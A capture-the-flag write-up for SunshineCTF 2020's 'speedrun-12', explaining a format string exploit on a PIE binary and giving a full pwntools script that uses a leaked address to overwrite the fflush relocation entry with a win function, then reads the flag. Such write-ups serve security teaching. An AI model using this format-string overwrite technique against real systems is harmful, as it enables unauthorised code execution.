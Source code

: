 # speedrun-12

## Task

nc chal.2020.sunshinectf.org 30012

File: chall_12

Tags: binary exploitation, format string vulnerability

## Solution

This task is basically the same as `speedrun-11`, except that we have PIE enabled and get an adress from the first memory region leaked.

We can use that to calculate the base address and the address of the second memory region, since their offsets are the same all the time.

In the second memory region is the `reloc.fflush` entry. We need to overwrite 8 bytes so we use an extended version of our previous payload.

We calculate:

 - `leak_addr - 0x0639` - memory region one
 - `mem_one   + 0x1000` - memory region two
 - `mem_two   + 0x09fc` - `reloc.fflush` entry, set a breakpoint at `fflush@plt` to find that out
 - `mem_one   + 0x05ad` - `sym.win` function

Now that we have all that we need to write 2 bytes at a time into the `reloc.fflush`.

If the second byte is less than the first one we write that first.

This is all we need:

```python
from pwn import *

e = ELF("./chall_12", checksec=False)

#p = e.process()
p = remote("chal.2020.sunshinectf.org", 30012)

info(p.recvuntil("Just a single second: "))
addr = p.recv()

addr_int = int(addr, 16)

mem_one = addr_int - 0x0639
mem_two = mem_one  + 0x1000

rel_fflush = mem_two + 0x09fc
sym_win    = mem_one + 0x05ad

part_one = sym_win >>  0 & 0xffff # low bytes
part_two = sym_win >> 16 & 0xffff # high bytes

payload  = p32(rel_fflush)
payload += p32(rel_fflush + 2) # addr of high bytes

if part_one > part_two:
        payload += "%{}x%7$hn".format(part_two - len(payload))
        payload += "%{}x%6$hn".format(part_one - part_two)
else:   
        payload += "%{}x%6$hn".format(part_one - len(payload))
        payload += "%{}x%7$hn".format(part_two - part_one)

p.sendline()
p.sendline(payload)
p.recvline()

p.interactive()
```

And we get our flag:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30012: Done
[*] Just a single second:
[*] Switching to interactive mode
$ ls
chall_12
flag.txt
$ cat flag.txt
sun{the-stage-351efbcaebfda0d5}
```
